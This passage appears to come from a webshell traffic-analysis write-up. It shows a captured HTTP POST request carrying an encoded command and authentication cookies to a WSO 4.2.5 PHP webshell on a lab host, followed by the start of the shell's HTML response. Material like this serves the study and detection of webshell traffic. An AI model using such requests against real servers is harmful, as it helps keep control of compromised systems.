	POST /webshell-master/php/wso/wso-4.2.5.php HTTP/1.1
	Host: 192.168.182.142
	Connection: keep-alive
	Content-Length: 125
	Cache-Control: max-age=0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	Origin: http://192.168.182.142
	Upgrade-Insecure-Requests: 1
	User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.102 Safari/537.36
	Content-Type: application/x-www-form-urlencoded
	Referer: http://192.168.182.142/webshell-master/php/wso/wso-4.2.5.php
	Accept-Encoding: gzip, deflate
	Accept-Language: zh-CN,zh;q=0.8
	Cookie: 3eff1b2562665d2f7c652d555a2dd7dekey=d69aa478a72ecd3a99c77af6fcf6b917; 3eff1b2562665d2f7c652d555a2dd7de=21232f297a57a5a743894a0e4a801fc3; 3eff1b2562665d2f7c652d555a2dd7destderr_to_out=0; 3eff1b2562665d2f7c652d555a2dd7deajax=1

	a=D3YPXwoAcF0sDVVV&c=FncDXTo%2BfAMqSQseLzIYGDtxaEkDAyFPOD01QDsUaEYDNQBdFDUAQy4TC0oWdz1POy59DQ%3D%3D&p1=&p2=&p3=&charset=UTF-8
**响应数据包**
<br>

	HTTP/1.1 200 OK
	Date: Fri, 04 Nov 2016 05:45:53 GMT
	Server: Apache/2.4.7 (Ubuntu)
	X-Powered-By: PHP/5.5.9-1ubuntu4.19
	Vary: Accept-Encoding
	Content-Encoding: gzip
	Content-Length: 3622
	Keep-Alive: timeout=5, max=100
	Connection: Keep-Alive
	Content-Type: text/html

	<html><head><meta http-equiv='Content-Type' content='text/html; charset=UTF-8'><title>192.168.182.142 - WSO 4.2.5</title>
	<style>
		body {background-color:#060A10; color:#e1e1e1; margin:0; font:normal 75% Arial, Helvetica, sans-serif; } canvas{ display: block; vertical-align: bottom;}
		#particles-js{width: 100%; height: 100px; background-color: #060a10; background-image: url(''); background-repeat: no-repeat; background-size: cover; background-position: 50% 50%;}
		body,td,th	{font:10pt tahoma,arial,verdana,sans-serif,Lucida Sans;margin:0;vertical-align:top;}
		table.info	{color:#C3C3C3;}
		table#toolsTbl {background-color: #060A10;}
		span,h1,a	{color:#fff !important;}
		span		{font-weight:bolder;}
		h1			{border-left:5px solid #2E6E9C;padding:2px 5px;font:14pt Verdana;background-color:#10151c;margin:0px;}
		div.content	{padding:5px;margin-left:5px;background-color:#060a10;}
		a			{text-decoration:none;}
		a:hover		{text-decoration:underline;}
		.tooltip::after {background:#0663D5;color:#FFF;content: attr(data-tooltip);margin-top:-50px;display:block;padding:6px 10px;position:absolute;visibility:hidden;}
		.tooltip:hover::after {opacity:1;visibility:visible;}
		.ml1		{border:1px solid #202832;padding:5px;margin:0;overflow:auto;}
		.bigarea	{min-width:100%;max-width:100%;height:400px;}
		input, textarea, select	{margin:0;color:#fff;background-color:#202832;border:none;font:9pt Courier New;outline:none;}
		label {position:relative}
		label:after {content:'<>';font:10px 'Consolas', monospace;color:#fff;-webkit-transform:rotate(90deg);-moz-transform:rotate(90deg);-ms-transform:rotate(90deg);transform:rotate(90deg);right:3px; top:3px;padding:0;position:absolute;pointer-events:none;}
		label:before {content:'';right:0; top:0;width:17px; height:17px;background:#202832;position:absolute;pointer-events:none;display:block;}
		form		{margin:0px;}